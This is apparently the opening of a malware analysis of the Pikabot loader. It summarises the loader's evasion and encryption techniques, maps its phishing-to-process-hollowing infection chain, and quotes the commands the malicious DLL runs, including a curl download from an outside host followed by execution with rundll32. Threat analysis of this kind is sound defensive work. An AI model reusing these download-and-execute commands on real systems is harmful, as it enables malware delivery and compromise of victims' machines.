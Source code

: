# Pikabot Analysis



## Executive Summary

- *Pikabot* used indirect syscalls to evade detection.
- *Pikabot* used RC4 for strings encryption/decryption.
- *Pikabot* used varouis anti-analysis techniques to slow down the analysis.


## Infection Chain

The infection chain start with running a copy of the legitimate file for Windows Write (write.exe) that will side-loads malicious DLL named edputil.dll, then it will download the packed Pikabot DLL.
after unpacking the Pikabot Loader will decrypt and inject the core module into the created process "ctfmon.exe".

{{< mermaid >}}
  graph TD
	0("Phishing Email with Attached ISO image")
	1("copy of write.exe side-loads malicious DLL named edputil.dll")
	2("side-loaded DLL retrieves and runs Pikabot Loader")
	3("Pikabot Loader decrypt and inject Core Module")
    4("ctfmon.exe (Pikabot Core Module)")
	 0 --> | victim runs the executable | 1
	 1 --> |  | 2
	 2 --> |  | 3
     3 --> | create | 4
     3 --> | process hollowing | 4


{{< /mermaid >}}
*Figure 1. Pikabot Infection Chain*

**The loaded DLL runs multiple commands to download and run the Pikabot malware.**
```text
    cmd /c data\\document.rtf"
    cmd.exe /c md c:\\wnd
    cmd.exe /c curl.exe --output c:\\wnd\\3291.png --url https://yourunitedlaws.com/mrD/4462
    rundll32 c:\\wnd\\3291.png,GetModuleProp
```
<p align="center">
  <img src="/images/download-pikabot.png">
</p>

